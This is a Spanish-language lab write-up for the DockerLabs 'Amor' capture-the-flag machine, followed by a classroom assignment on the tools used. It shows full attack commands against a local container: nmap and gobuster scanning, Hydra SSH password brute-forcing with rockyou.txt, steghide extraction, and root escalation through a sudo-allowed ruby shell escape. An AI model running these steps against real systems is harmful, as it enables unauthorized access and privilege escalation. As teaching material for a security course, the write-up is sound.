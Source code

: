 ## DOCKERLABS

DockerLabs es una plataforma que ofrece una serie de desafíos prácticos relacionados con Docker, organizados por niveles de dificultad: Muy Fácil, Fácil, Medio y Difícil

# Reto Amor 

**Prerequisito tener instalado docker**

## Fácil

Dockerlabs.es

*Descarga*

![](Descarga.jpg)

Una vez descargada deberemos copiar el contenido hacia kali.

![](scp1.jpg)

```bash
jaider@TTG MINGW64 /g/HACKING
$ scp -r amor kali@192.168.1.12:/home/kali/Documents/
```
Ya en Kali y en caso de no tener instlado Docker proceder a su instalación: 

```bash
sudo apt install docker.io
```

## Despliegue del laboratorio.

Iniciaremos nuestro reto creando una carpeta para el ejercicio, descargando el laboratorio, descomprimiendo, otorgando permisos al script de despliegue y ejecutando el script.

**Descomprimir el recurso:**

En nuestro caso se trata de la carpeta que se traslado por SCP desde ya descomprimida, en caso de que se descargue directamente en Kali proceder a descomprirla. 

```bash
unzip nombre_maquina.zip
```

Esto generará una  carpeta  con archivos: un script que es el autodespliegue de la máquina «auto_deploy.sh» y el archivo de la máquina en.tar «ejemplo.tar».

Y por último para desplegar la máquina, basta con ejecutar el script:


```bash
└─# ./auto_deploy.sh amor.tar 
```

![](Despliegue.jpg)


## Escaneo

Lo primero que realizaremos será revisar nuestra interfaz de red con:

![](ipadd.jpg)

```bash
ip add 
```
para saber a qué segmento apuntaremos nuestros escaneos.

Ya con el segmento en vista y la interfaz, realizaremos una consulta a la red con el siguiente comando:

```bash
sudo netdiscover -i docker0 -r 172.17.0.0/24
```

![](netdiscover.jpg)


Acto seguido, realizaremos una búsqueda con nmap (Network Mapper):

```bash
sudo nmap --min-rate 5000 -p- -sS -sV 172.17.0.2
```

![](nmap.jpg)

La búsqueda nos devuelve que hay dos puertos abiertos, el **22** y el **80**.

Abrimos el navegador para revisar el servicio del puerto **80**.

A la vista no se encuentra nada, así que realizamos un fuzzing para ver si encontrábamos algo. Aun que veremos que es infructuoso el procdimieno. 

```bash
gobuster dir -u http://172.17.0.2/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```

![](gobuster.jpg)

A esta altura el servicio web no nos dio el amor que buscábamos, pero sí nos quedamos con la pista de carlota y juan, así que intentaremos con Hydra por SSH con esos usuarios. (Inspección del sitio web)



## Conexión Hydra

Ejecutamos el siguiente comando de hydra, el cual nos da una respuesta positiva al fin:

```bash
hydra -l carlota -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2 -t 10
```

![](hydra.jpg)

Realizamos la conexión SSH con los datos obtenidos:

Navegamos a la siguiente ruta:

```bash
cd /carlota/Desktop/fotos/vacaciones
```

En donde encontrarás un archivo llamado `imagen.jpg`.

Para descargarlo lo realizaremos mediante scp como:

```bash
 scp carlota@172.17.0.2:/home/carlota/Desktop/fotos/vacaciones/imagen.jpg /home/kali/Documents/amor
```
![](scp.jpg)


La imagen descargada es la siguiente:

![](foto.jpg)

## Con file identificamos el tipo de fichero.

file.jpg


## Esteganografía

Ya es sospechoso que solo exista una imagen entre las rutas, por lo cual decidimos realizar una consulta de esteganografía con:

```bash
steghide --extract -sf imagen.jpg
```

Dentro del archivo secret.txt encontraremos el siguiente código:

Realizamos una búsqueda para saber qué tipo de codificación es y nos da por resultado que es base64, así que realizamos una decodificación:

```bash
echo "ZXNsYWNhc2FkZXBpbnlwb24=" | base64 -d; echo
```

Usaremos esta información como contraseña para intentar migrar a otro usuario o convertirnos en root:

```bash
su oscar
```

Con `sudo -l` vemos que tenemos acceso a la consola de **ruby** y la ejecutamos:

![](sudo.jpg)

```bash
sudo /usr/bin/ruby -e 'exec "/bin/bash"'
```

Finalmente hacemos un:

```bash
whoami
```
![](root.jpg)

# Taller Individual.

**NOTA IMPORTANTE: Realizar la actividad dentro de un README.md**

**Instrucciones:**

- Para esta actividad individual, deberán realizar el trabajo dentro de la subcarpeta ENTREGAS que se encuentra en la sesión actual; dentro de el README.md de la sesión.

- La entrega final deberá cargarse en un nuevo directorio dentro de la carpeta **ENTREGAS**, el cual tendrá el formato ApellidoNombre (ejemplo: PerezJuan). Este directorio deberá ser creado por cada estudiante en el repositorio de GitHub asignado, para lo cual se les otorgarán los permisos de colaboradores necesarios.

**Métrica Clave: Profundidad y Calidad de las Respuestas**

La evaluación de esta actividad se centrará en la profundidad y calidad de sus respuestas. Esto implica lo siguiente:

- Definición y Explicación Detallada: Para cada comando y herramienta empleada, deben proporcionar una definición clara y una explicación exhaustiva de su propósito y funcionamiento.

Ejemplos Prácticos: Incluyan ejemplos concretos y funcionales que ilustren el uso de cada comando o herramienta.

- Variantes y Banderas (Flags): Describan las principales variantes y las banderas (opciones o argumentos) más relevantes de cada comando, explicando su función y cómo modifican el comportamiento del comando.

**Casos de Uso Reales:** Mencionar escenarios o casos de uso comunes donde estas herramientas y comandos son particularmente útiles.

**Asegúrense de que su documentación sea clara, organizada y fácil de entender.**

**NOTA: Incluir imágenes y fuentes en su documentación.**


**Puntos a desarrollar**

1. ReAlizar una investigación individual de cada una de las herramientas empleadas. Sintetice el resultado  mediante un cuadro que explique su definición, funcionalidad y casos de uso.

2. Explicar en detalle cada uno de los comandos empleados realizando un desglose del mismo y citando al menos tres alternativas (si aplica) de variantes del comando para las herramientas empleaas, este punto amplia el ejercicio anterior.
   
4. Realice un diagrama de flujo de todo el procedimiento realizado.

